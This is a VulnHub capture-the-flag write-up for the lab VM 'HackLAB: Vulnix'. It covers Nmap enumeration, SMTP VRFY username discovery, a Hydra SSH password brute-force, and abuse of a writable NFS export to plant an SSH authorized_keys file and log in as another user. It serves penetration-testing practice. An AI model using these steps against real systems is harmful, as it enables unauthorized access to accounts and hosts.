# [[VulnHub] HackLAB: Vulnix](https://www.vulnhub.com/entry/hacklab-vulnix,48/)

**Date**: 20/Sep/2019  
**Categories**: [oscp](https://github.com/7h3rAm/writeups/search?q=oscp&unscoped_q=oscp), [vulnhub](https://github.com/7h3rAm/writeups/search?q=vulnhub&unscoped_q=vulnhub), [linux](https://github.com/7h3rAm/writeups/search?q=linux&unscoped_q=linux)  
**Tags**: [`exploit_nfs_rw`](https://github.com/7h3rAm/writeups#exploit_nfs_rw), [`exploit_ssh_authorizedkeys`](https://github.com/7h3rAm/writeups#exploit_ssh_authorizedkeys), [`privesc_nfs_norootsquash`](https://github.com/7h3rAm/writeups#privesc_nfs_norootsquash), [`privesc_ssh_authorizedkeys`](https://github.com/7h3rAm/writeups#privesc_ssh_authorizedkeys)  

## Overview
This is a writeup for VulnHub VM [HackLAB: Vulnix](https://www.vulnhub.com/entry/hacklab-vulnix,48/). Here's an overview of the `enumeration` → `exploitation` → `privilege escalation` process:





\newpage
## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
``` {.python .numberLines}
# Nmap 7.70 scan initiated Thu Sep 19 17:29:26 2019 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /root/toolbox/writeups/vulnhub.vulnix/results/192.168.92.177/scans/_quick_tcp_nmap.txt -oX /root/toolbox/writeups/vulnhub.vulnix/results/192.168.92.177/scans/xml/_quick_tcp_nmap.xml 192.168.92.177
Nmap scan report for 192.168.92.177
Host is up, received arp-response (0.00090s latency).
Scanned at 2019-09-19 17:29:27 PDT for 17s
Not shown: 988 closed ports
Reason: 988 resets
PORT     STATE SERVICE  REASON         VERSION
22/tcp   open  ssh      syn-ack ttl 64 OpenSSH 5.9p1 Debian 5ubuntu1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 10:cd:9e:a0:e4:e0:30:24:3e:bd:67:5f:75:4a:33:bf (DSA)
| ssh-dss AAAAB3NzaC1kc3MAAACBAJJHCFDFkbuQTVpmQvCvdR2poQrsZOQ0nBEsUij15T9DAiUhxI41G8hQ97MM9Qe0eGdP7HsA8vkZnglainhktvPe1NN9+XnDVRziI3dEqSxpCi4obxxYdKtqGBIj83dOPpxm09xDhVYBdh7ZlZh8xttD+ACFqmN4VZjmv0IlSYZFAAAAFQC6Z+j+KbT59gBXSPQTpAJIh0FE2wAAAIEAgYwA5oFVMQdKfRwAxbLoADx3t735BpLIoVNX2j4UrAF8CmwLCmcsNAhdpUP+hMhKGXnP5co2nira3OkcwWRu219bjte7m1l9JOvCJUASTUzOC0CUJkm9wO40/gyJOelKRR37r0qnBImiEumL6dSpcg4b0IfozCI9UJGh/yiEu4kAAACASWk2tKCyCHamiXwIt0XdwTXubZYtRtH09LHdisSEsoinz+2szuzbqnwgancHXcyQ3PapixZhVNASZ8MobmkFDXh4SDS5zl+RW7K40FBh3z+HCdSAJJjkRFXWEuadjxpO2QWBYEJiER4AtFWUSl2kVMFdsWqYaK7BxStNNkmGBII=
|   2048 bc:f9:24:07:2f:cb:76:80:0d:27:a6:48:52:0a:24:3a (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC1jCDgzdowLQVOEXrczN+xbuMcNkncz2EfCEncP7k8rhNjQq+eXzMKEfULxMLh/wLFhX2TVZDECTpQ0WVJckgkGeZSdvmEJKt5LbZlSm5HAz/DMUKIuohDRI4F3lqn9u5VAVKSyTXyR3EuxCsCHJy+Xf40BJImr+fZ7yH3xwPPqJ9in+LfgTXaRItqLDHiHAsTIXXwsDgweaS9hSTAR1MO+TdZCnXKPJ1NEt38+Fl7rnTnBE2TdtU3iyrlWXE0GGGg0bgldqas7bR4UH/uRZZOZK2+UTf0qg30H7ll8ShfZIbdW+59RfQqYz8tZYsoWoxahWf3dmx5soCWWcAP7DAV
|   256 4d:bb:4a:c1:18:e8:da:d1:82:6f:58:52:9c:ee:34:5f (ECDSA)
|_ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGEudclsh1beHM/DPWQGR31dOGqdLcXVj1xLG/YSGfiNmN1pT6x0MwYQyN6pzCzzonljThH8JwIZjid+JN2PzxE=
25/tcp   open  smtp     syn-ack ttl 64 Postfix smtpd
|_smtp-commands: vulnix, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
| ssl-cert: Subject: commonName=vulnix
| Issuer: commonName=vulnix
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2012-09-02T17:40:12
| Not valid after:  2022-08-31T17:40:12
| MD5:   58e3 f1ac fef6 b6d1 744c 836f ba24 4f0a
| SHA-1: 712f 69ba 8c54 32e5 711c 898b 55ab 0a83 44a0 420b
| -----BEGIN CERTIFICATE-----
| MIICnjCCAYYCCQCrWhznjAI2hTANBgkqhkiG9w0BAQUFADARMQ8wDQYDVQQDEwZ2
| dWxuaXgwHhcNMTIwOTAyMTc0MDEyWhcNMjIwODMxMTc0MDEyWjARMQ8wDQYDVQQD
| EwZ2dWxuaXgwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQDDbiWM7/Xk
| 7+VnQuSzKIy6GgD9xAw5jCnKmRY6MfJ0jNmpIjo70LEpoTTEZvFLwKbdkxQHzusv
| 50GOrZLm6MkrB2Ad8skvkJR9PA05KoM+Uha5P35rdF0MaNPtHRpA5W3Ql3qAoph7
| 8hGmdI4GrLmedxkmajniCYNpowArI7UjYA5FWF6q1m41CS+xCqk9u4qH8SrV616z
| bJ2H00mhp0NJDJbTDX35biGeGKR70e5xQAkMwQKM6s9iLBo2nrH2JKyxfVMeMgQf
| KoRJEeILZbgP4X9Xc6iA9GuNSqluObOhCv1RsFLP915xNvnf6aZf8EtyODISzXhj
| GBsy//uolXMLAgMBAAEwDQYJKoZIhvcNAQEFBQADggEBAIJHgnARP3nuoFigE9vE
| CyK9sKYPn+nh0xOMFil2LzfcZsVRqTl0T/VbOug1i+pettkcPqWBBNs1Q5uSEIuP
| 0pEq9AQdeLk7weMa0trDK+XoSbEvcAvYPnbK6Ghr343FE74nmxewtfCbrNfEnYZB
| TYlEElBqcQFSo4kB6UyMOOGwuIJ7EHITPa7ZxKW6OBOVOzCUiYm3hGn7dpyVeaH/
| zpSwobV1pSqyW7+Tb3KO82lqSnmYvRzk3TmIVXutOXTVE+L58xbo5uafae2UvP4m
| m5Be1rZi17Ub1kIMKT+OJLq2oaDb6Y8Ni/a267RoGO/TcwCLjKHsDl5Niwk6rYMX
| ZtY=
|_-----END CERTIFICATE-----
|_ssl-date: 2019-09-20T00:29:52+00:00; +8s from scanner time.
79/tcp   open  finger   syn-ack ttl 64 Linux fingerd
|_finger: No one logged on.\x0D
110/tcp  open  pop3     syn-ack ttl 64 Dovecot pop3d
|_pop3-capabilities: RESP-CODES SASL CAPA TOP UIDL PIPELINING STLS
| ssl-cert: Subject: commonName=vulnix/organizationName=Dovecot mail server/organizationalUnitName=vulnix/emailAddress=root@vulnix
| Issuer: commonName=vulnix/organizationName=Dovecot mail server/organizationalUnitName=vulnix/emailAddress=root@vulnix
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2012-09-02T17:40:22
| Not valid after:  2022-09-02T17:40:22
| MD5:   2b3f 3e28 c85d e10c 7b7a 2435 c5e7 84fc
| SHA-1: 4a49 a407 01f1 37c8 81a3 4519 981b 1eee 6856 348e
| -----BEGIN CERTIFICATE-----
| MIIDizCCAnOgAwIBAgIJAKvS691t83I+MA0GCSqGSIb3DQEBBQUAMFwxHDAaBgNV
| BAoME0RvdmVjb3QgbWFpbCBzZXJ2ZXIxDzANBgNVBAsMBnZ1bG5peDEPMA0GA1UE
| AwwGdnVsbml4MRowGAYJKoZIhvcNAQkBFgtyb290QHZ1bG5peDAeFw0xMjA5MDIx
| NzQwMjJaFw0yMjA5MDIxNzQwMjJaMFwxHDAaBgNVBAoME0RvdmVjb3QgbWFpbCBz
| ZXJ2ZXIxDzANBgNVBAsMBnZ1bG5peDEPMA0GA1UEAwwGdnVsbml4MRowGAYJKoZI
| hvcNAQkBFgtyb290QHZ1bG5peDCCASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoC
| ggEBALv7qqgwWV56bHtf/0PqD6yMN1bv866H5gqrVENXrfaL8ZOiNCD9/Fg6jOuh
| VLV5iw5y8lKNdMZW5PWHN8mQEeoyWWFXMV1X4RLvOuTIf1sXNHp+IcwZpDDobHzQ
| ENhpwhlWTxdObUEVVT/ChOTaAQIpi9AFzo4fjJ4UEHfEae98cssmuqQP9Unj9xKv
| vCj181l3g9VAQ92KjxWeWMa8e+ecwBVtAsPdU3ZwmwVIuVnBDa9nRdkR0y31RWSr
| /Lil4ckL0TZ4K92z146pTex7QSNKGHyuLPJGddm5pu11WP5cJEz9O2MDOo6WEISb
| V7EEpfbvrA6cd+ISf4dGSyNZfp8CAwEAAaNQME4wHQYDVR0OBBYEFACM4N/xHviz
| b3W/Qea+BvYb3O7AMB8GA1UdIwQYMBaAFACM4N/xHvizb3W/Qea+BvYb3O7AMAwG
| A1UdEwQFMAMBAf8wDQYJKoZIhvcNAQEFBQADggEBAEP1Kk3MagUfM6kOLgK++4gV
| LJzOC1OGQ/ERyNRhk8JgVbhuasrC7hNtzk2ku7yP4H8IlVzjs4EGQOxoGKHnrzBr
| 76iqlQRASZbJPwemc1CpRbh7XTZAOPHUbihycpG4iQZD2/55c6Az+TcyHLqjPbCW
| YVCAB8mMXDtYEB4OiOEvbulud5fjXAu7ba8tzUSqAWF7dA9S/vcmmnCC+y1nV9Tc
| 8K1+edk6WTOjoQEALUA5ikfB8I8O95AWPkfcj77BOiPOvPlEGlaWm85DMRkVOatg
| mqDiJCaX/SajIW22LgEw81ErtM8m6RAZ1qN+sf9O6T7+Mxvbd6aPx/bxj/LwQ6c=
|_-----END CERTIFICATE-----
|_ssl-date: 2019-09-20T00:29:52+00:00; +9s from scanner time.
111/tcp  open  rpcbind  syn-ack ttl 64 2-4 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100003  2,3,4       2049/tcp  nfs
|   100003  2,3,4       2049/udp  nfs
|   100005  1,2,3      50680/tcp  mountd
|   100005  1,2,3      51785/udp  mountd
|   100021  1,3,4      35231/udp  nlockmgr
|   100021  1,3,4      57819/tcp  nlockmgr
|   100024  1          51959/udp  status
|   100024  1          59222/tcp  status
|   100227  2,3         2049/tcp  nfs_acl
|_  100227  2,3         2049/udp  nfs_acl
143/tcp  open  imap     syn-ack ttl 64 Dovecot imapd
|_imap-capabilities: IMAP4rev1 more have Pre-login IDLE post-login LITERAL+ ENABLE SASL-IR capabilities listed OK LOGINDISABLEDA0001 STARTTLS ID LOGIN-REFERRALS
| ssl-cert: Subject: commonName=vulnix/organizationName=Dovecot mail server/organizationalUnitName=vulnix/emailAddress=root@vulnix
| Issuer: commonName=vulnix/organizationName=Dovecot mail server/organizationalUnitName=vulnix/emailAddress=root@vulnix
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2012-09-02T17:40:22
| Not valid after:  2022-09-02T17:40:22
| MD5:   2b3f 3e28 c85d e10c 7b7a 2435 c5e7 84fc
| SHA-1: 4a49 a407 01f1 37c8 81a3 4519 981b 1eee 6856 348e
| -----BEGIN CERTIFICATE-----
| MIIDizCCAnOgAwIBAgIJAKvS691t83I+MA0GCSqGSIb3DQEBBQUAMFwxHDAaBgNV
| BAoME0RvdmVjb3QgbWFpbCBzZXJ2ZXIxDzANBgNVBAsMBnZ1bG5peDEPMA0GA1UE
| AwwGdnVsbml4MRowGAYJKoZIhvcNAQkBFgtyb290QHZ1bG5peDAeFw0xMjA5MDIx
| NzQwMjJaFw0yMjA5MDIxNzQwMjJaMFwxHDAaBgNVBAoME0RvdmVjb3QgbWFpbCBz
| ZXJ2ZXIxDzANBgNVBAsMBnZ1bG5peDEPMA0GA1UEAwwGdnVsbml4MRowGAYJKoZI
| hvcNAQkBFgtyb290QHZ1bG5peDCCASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoC
| ggEBALv7qqgwWV56bHtf/0PqD6yMN1bv866H5gqrVENXrfaL8ZOiNCD9/Fg6jOuh
| VLV5iw5y8lKNdMZW5PWHN8mQEeoyWWFXMV1X4RLvOuTIf1sXNHp+IcwZpDDobHzQ
| ENhpwhlWTxdObUEVVT/ChOTaAQIpi9AFzo4fjJ4UEHfEae98cssmuqQP9Unj9xKv
| vCj181l3g9VAQ92KjxWeWMa8e+ecwBVtAsPdU3ZwmwVIuVnBDa9nRdkR0y31RWSr
| /Lil4ckL0TZ4K92z146pTex7QSNKGHyuLPJGddm5pu11WP5cJEz9O2MDOo6WEISb
| V7EEpfbvrA6cd+ISf4dGSyNZfp8CAwEAAaNQME4wHQYDVR0OBBYEFACM4N/xHviz
| b3W/Qea+BvYb3O7AMB8GA1UdIwQYMBaAFACM4N/xHvizb3W/Qea+BvYb3O7AMAwG
| A1UdEwQFMAMBAf8wDQYJKoZIhvcNAQEFBQADggEBAEP1Kk3MagUfM6kOLgK++4gV
| LJzOC1OGQ/ERyNRhk8JgVbhuasrC7hNtzk2ku7yP4H8IlVzjs4EGQOxoGKHnrzBr
| 76iqlQRASZbJPwemc1CpRbh7XTZAOPHUbihycpG4iQZD2/55c6Az+TcyHLqjPbCW
| YVCAB8mMXDtYEB4OiOEvbulud5fjXAu7ba8tzUSqAWF7dA9S/vcmmnCC+y1nV9Tc
| 8K1+edk6WTOjoQEALUA5ikfB8I8O95AWPkfcj77BOiPOvPlEGlaWm85DMRkVOatg
| mqDiJCaX/SajIW22LgEw81ErtM8m6RAZ1qN+sf9O6T7+Mxvbd6aPx/bxj/LwQ6c=
|_-----END CERTIFICATE-----
|_ssl-date: 2019-09-20T00:29:52+00:00; +9s from scanner time.
512/tcp  open  exec     syn-ack ttl 64 netkit-rsh rexecd
513/tcp  open  login    syn-ack ttl 64 OpenBSD or Solaris rlogind
514/tcp  open  shell    syn-ack ttl 64 Netkit rshd
993/tcp  open  ssl/imap syn-ack ttl 64 Dovecot imapd
|_imap-capabilities: IMAP4rev1 more Pre-login IDLE have LITERAL+ ENABLE SASL-IR capabilities post-login OK listed AUTH=PLAINA0001 ID LOGIN-REFERRALS
| ssl-cert: Subject: commonName=vulnix/organizationName=Dovecot mail server/organizationalUnitName=vulnix/emailAddress=root@vulnix
| Issuer: commonName=vulnix/organizationName=Dovecot mail server/organizationalUnitName=vulnix/emailAddress=root@vulnix
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2012-09-02T17:40:22
| Not valid after:  2022-09-02T17:40:22
| MD5:   2b3f 3e28 c85d e10c 7b7a 2435 c5e7 84fc
| SHA-1: 4a49 a407 01f1 37c8 81a3 4519 981b 1eee 6856 348e
| -----BEGIN CERTIFICATE-----
| MIIDizCCAnOgAwIBAgIJAKvS691t83I+MA0GCSqGSIb3DQEBBQUAMFwxHDAaBgNV
| BAoME0RvdmVjb3QgbWFpbCBzZXJ2ZXIxDzANBgNVBAsMBnZ1bG5peDEPMA0GA1UE
| AwwGdnVsbml4MRowGAYJKoZIhvcNAQkBFgtyb290QHZ1bG5peDAeFw0xMjA5MDIx
| NzQwMjJaFw0yMjA5MDIxNzQwMjJaMFwxHDAaBgNVBAoME0RvdmVjb3QgbWFpbCBz
| ZXJ2ZXIxDzANBgNVBAsMBnZ1bG5peDEPMA0GA1UEAwwGdnVsbml4MRowGAYJKoZI
| hvcNAQkBFgtyb290QHZ1bG5peDCCASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoC
| ggEBALv7qqgwWV56bHtf/0PqD6yMN1bv866H5gqrVENXrfaL8ZOiNCD9/Fg6jOuh
| VLV5iw5y8lKNdMZW5PWHN8mQEeoyWWFXMV1X4RLvOuTIf1sXNHp+IcwZpDDobHzQ
| ENhpwhlWTxdObUEVVT/ChOTaAQIpi9AFzo4fjJ4UEHfEae98cssmuqQP9Unj9xKv
| vCj181l3g9VAQ92KjxWeWMa8e+ecwBVtAsPdU3ZwmwVIuVnBDa9nRdkR0y31RWSr
| /Lil4ckL0TZ4K92z146pTex7QSNKGHyuLPJGddm5pu11WP5cJEz9O2MDOo6WEISb
| V7EEpfbvrA6cd+ISf4dGSyNZfp8CAwEAAaNQME4wHQYDVR0OBBYEFACM4N/xHviz
| b3W/Qea+BvYb3O7AMB8GA1UdIwQYMBaAFACM4N/xHvizb3W/Qea+BvYb3O7AMAwG
| A1UdEwQFMAMBAf8wDQYJKoZIhvcNAQEFBQADggEBAEP1Kk3MagUfM6kOLgK++4gV
| LJzOC1OGQ/ERyNRhk8JgVbhuasrC7hNtzk2ku7yP4H8IlVzjs4EGQOxoGKHnrzBr
| 76iqlQRASZbJPwemc1CpRbh7XTZAOPHUbihycpG4iQZD2/55c6Az+TcyHLqjPbCW
| YVCAB8mMXDtYEB4OiOEvbulud5fjXAu7ba8tzUSqAWF7dA9S/vcmmnCC+y1nV9Tc
| 8K1+edk6WTOjoQEALUA5ikfB8I8O95AWPkfcj77BOiPOvPlEGlaWm85DMRkVOatg
| mqDiJCaX/SajIW22LgEw81ErtM8m6RAZ1qN+sf9O6T7+Mxvbd6aPx/bxj/LwQ6c=
|_-----END CERTIFICATE-----
|_ssl-date: 2019-09-20T00:29:51+00:00; +8s from scanner time.
995/tcp  open  ssl/pop3 syn-ack ttl 64 Dovecot pop3d
|_pop3-capabilities: RESP-CODES SASL(PLAIN) CAPA TOP UIDL USER PIPELINING
| ssl-cert: Subject: commonName=vulnix/organizationName=Dovecot mail server/organizationalUnitName=vulnix/emailAddress=root@vulnix
| Issuer: commonName=vulnix/organizationName=Dovecot mail server/organizationalUnitName=vulnix/emailAddress=root@vulnix
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2012-09-02T17:40:22
| Not valid after:  2022-09-02T17:40:22
| MD5:   2b3f 3e28 c85d e10c 7b7a 2435 c5e7 84fc
| SHA-1: 4a49 a407 01f1 37c8 81a3 4519 981b 1eee 6856 348e
| -----BEGIN CERTIFICATE-----
| MIIDizCCAnOgAwIBAgIJAKvS691t83I+MA0GCSqGSIb3DQEBBQUAMFwxHDAaBgNV
| BAoME0RvdmVjb3QgbWFpbCBzZXJ2ZXIxDzANBgNVBAsMBnZ1bG5peDEPMA0GA1UE
| AwwGdnVsbml4MRowGAYJKoZIhvcNAQkBFgtyb290QHZ1bG5peDAeFw0xMjA5MDIx
| NzQwMjJaFw0yMjA5MDIxNzQwMjJaMFwxHDAaBgNVBAoME0RvdmVjb3QgbWFpbCBz
| ZXJ2ZXIxDzANBgNVBAsMBnZ1bG5peDEPMA0GA1UEAwwGdnVsbml4MRowGAYJKoZI
| hvcNAQkBFgtyb290QHZ1bG5peDCCASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoC
| ggEBALv7qqgwWV56bHtf/0PqD6yMN1bv866H5gqrVENXrfaL8ZOiNCD9/Fg6jOuh
| VLV5iw5y8lKNdMZW5PWHN8mQEeoyWWFXMV1X4RLvOuTIf1sXNHp+IcwZpDDobHzQ
| ENhpwhlWTxdObUEVVT/ChOTaAQIpi9AFzo4fjJ4UEHfEae98cssmuqQP9Unj9xKv
| vCj181l3g9VAQ92KjxWeWMa8e+ecwBVtAsPdU3ZwmwVIuVnBDa9nRdkR0y31RWSr
| /Lil4ckL0TZ4K92z146pTex7QSNKGHyuLPJGddm5pu11WP5cJEz9O2MDOo6WEISb
| V7EEpfbvrA6cd+ISf4dGSyNZfp8CAwEAAaNQME4wHQYDVR0OBBYEFACM4N/xHviz
| b3W/Qea+BvYb3O7AMB8GA1UdIwQYMBaAFACM4N/xHvizb3W/Qea+BvYb3O7AMAwG
| A1UdEwQFMAMBAf8wDQYJKoZIhvcNAQEFBQADggEBAEP1Kk3MagUfM6kOLgK++4gV
| LJzOC1OGQ/ERyNRhk8JgVbhuasrC7hNtzk2ku7yP4H8IlVzjs4EGQOxoGKHnrzBr
| 76iqlQRASZbJPwemc1CpRbh7XTZAOPHUbihycpG4iQZD2/55c6Az+TcyHLqjPbCW
| YVCAB8mMXDtYEB4OiOEvbulud5fjXAu7ba8tzUSqAWF7dA9S/vcmmnCC+y1nV9Tc
| 8K1+edk6WTOjoQEALUA5ikfB8I8O95AWPkfcj77BOiPOvPlEGlaWm85DMRkVOatg
| mqDiJCaX/SajIW22LgEw81ErtM8m6RAZ1qN+sf9O6T7+Mxvbd6aPx/bxj/LwQ6c=
|_-----END CERTIFICATE-----
|_ssl-date: 2019-09-20T00:29:51+00:00; +8s from scanner time.
2049/tcp open  nfs_acl  syn-ack ttl 64 2-3 (RPC #100227)
MAC Address: 00:0C:29:87:38:08 (VMware)
Service Info: Host:  vulnix; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 8s, deviation: 0s, median: 7s

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Sep 19 17:29:44 2019 -- 1 IP address (1 host up) scanned in 17.41 seconds

```

2\. We perform SMTP user enumeration and find 2 hits:  
``` {.python .numberLines}
smtp-user-enum -M VRFY -U "/usr/share/seclists/Usernames/top-usernames-shortlist.txt" -t 192.168.92.177 -p 25 2>&1
  Starting smtp-user-enum v1.2 ( http://pentestmonkey.net/tools/smtp-user-enum )
  
   ----------------------------------------------------------
  |                   Scan Information                       |
   ----------------------------------------------------------
  
  Mode ..................... VRFY
  Worker Processes ......... 5
  Usernames file ........... /usr/share/seclists/Usernames/top-usernames-shortlist.txt
  Target count ............. 1
  Username count ........... 17
  Target TCP port .......... 25
  Query timeout ............ 5 secs
  Target domain ............ 
  
  ######## Scan started at Thu Sep 19 17:29:44 2019 #########
  192.168.92.177: root exists
  192.168.92.177: user exists
  ######## Scan completed at Thu Sep 19 17:29:46 2019 #########
  2 results.
  
  17 queries in 2 seconds (8.5 queries / sec)

```

3\. We also manually verified presence of user `vulnix` and `user`:  
``` {.python .numberLines}
smtp-user-enum -M VRFY -u vulnix -t 192.168.92.177 -p 25 2>&1
  Starting smtp-user-enum v1.2 ( http://pentestmonkey.net/tools/smtp-user-enum )
  
   ----------------------------------------------------------
  |                   Scan Information                       |
   ----------------------------------------------------------
  
  Mode ..................... VRFY
  Worker Processes ......... 5
  Target count ............. 1
  Username count ........... 1
  Target TCP port .......... 25
  Query timeout ............ 5 secs
  Target domain ............ 
  
  ######## Scan started at Thu Sep 19 18:21:43 2019 #########
  192.168.92.177: vulnix exists
  ######## Scan completed at Thu Sep 19 18:21:44 2019 #########
  1 results.
  
  1 queries in 1 seconds (1.0 queries / sec)

smtp-user-enum -M VRFY -u user -t 192.168.92.177 -p 25 2>&1
  Starting smtp-user-enum v1.2 ( http://pentestmonkey.net/tools/smtp-user-enum )
  
   ----------------------------------------------------------
  |                   Scan Information                       |
   ----------------------------------------------------------
  
  Mode ..................... VRFY
  Worker Processes ......... 5
  Target count ............. 1
  Username count ........... 1
  Target TCP port .......... 25
  Query timeout ............ 5 secs
  Target domain ............ 
  
  ######## Scan started at Fri Sep 20 14:08:12 2019 #########
  192.168.92.177: user exists
  ######## Scan completed at Fri Sep 20 14:08:13 2019 #########
  1 results.
  
  1 queries in 1 seconds (1.0 queries / sec)

```

4\. Bruteforcing the SSH password for `user` with `rockyou.txt` was successful and we can now login to the target:  
``` {.python .numberLines}
hydra -l user -P /usr/share/wordlists/rockyou.txt -e nsr ssh://192.168.92.177
  Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
  
  Hydra (http://www.thc.org/thc-hydra) starting at 2019-09-20 14:09:36
  [WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
  [DATA] max 16 tasks per 1 server, overall 16 tasks, 14344402 login tries (l:1/p:0), ~14344402 tries per task
  [DATA] attacking ssh://192.168.92.177:22/
  [22][ssh] host: 192.168.92.177   login: user   password: letmein
  1 of 1 target successfully completed, 1 valid password found
  [WARNING] Writing restore file because 9 final worker threads did not complete until end.
  [ERROR] 9 targets did not resolve or could not be connected
  [ERROR] 16 targets did not complete
  Hydra (http://www.thc.org/thc-hydra) finished at 2019-09-20 14:09:45

```

  


### Findings
#### Open Ports
``` {.python .numberLines}
22/tcp     |  ssh       |  OpenSSH 5.9p1 Debian 5ubuntu1 (Ubuntu Linux; protocol 2.0)
25/tcp     |  smtp      |  Postfix smtpd
79/tcp     |  finger    |  Linux fingerd
110/tcp    |  pop3      |  Dovecot pop3d
111/tcp    |  rpcbind   |  2-4 (RPC #100000)
143/tcp    |  imap      |  Dovecot imapd
512/tcp    |  exec      |  netkit-rsh rexecd
513/tcp    |  login     |  OpenBSD or Solaris rlogind
514/tcp    |  shell     |  Netkit rshd
993/tcp    |  ssl/imap  |  Dovecot imapd
995/tcp    |  ssl/pop3  |  Dovecot pop3d
2049/tcp   |  nfs_acl   |  2-3 (RPC #100227)
34422/tcp  |  mountd    |  1-3 (RPC #100005)
39054/tcp  |  mountd    |  1-3 (RPC #100005)
50680/tcp  |  mountd    |  1-3 (RPC #100005)
57819/tcp  |  nlockmgr  |  1-4 (RPC #100021)
59222/tcp  |  status    |  1 (RPC #100024)
```
#### Users
``` {.python .numberLines}
ssh: root, user, vulnix
```

\newpage
## Phase #2: Exploitation
1\. Nothing useful is found with the `user` account so we move on for further enumeration. Let's explore NFS shares:  
``` {.python .numberLines}
showmount -e 192.168.92.177
  Export list for 192.168.92.177:
  /home/vulnix *

```

2\. We create a mount directory `./mnt`, mount the remote NFS share with NFSv3 so that we can see the UID, create a new user `vulnix` with the expected UID, change to user `vulnix`, create a `.ssh` directory, copy `id_rsa.pub` to `.ssh/authorized_keys` and SSH into the target as user `vulnix`:  
``` {.python .numberLines}
mkdir ./mnt/
mount 192.168.92.177:/home/vulnix ./mnt -o vers=3
ls -l
useradd -u 2008 vulnix
cp ~/.ssh/id_rsa.pub ./authorized_keys
su vulnix
cd ./mnt/
mkdir .ssh/
cp ./authorized_keys ./.ssh/
exit
ssh vulnix@192.168.92.177

```

  

  

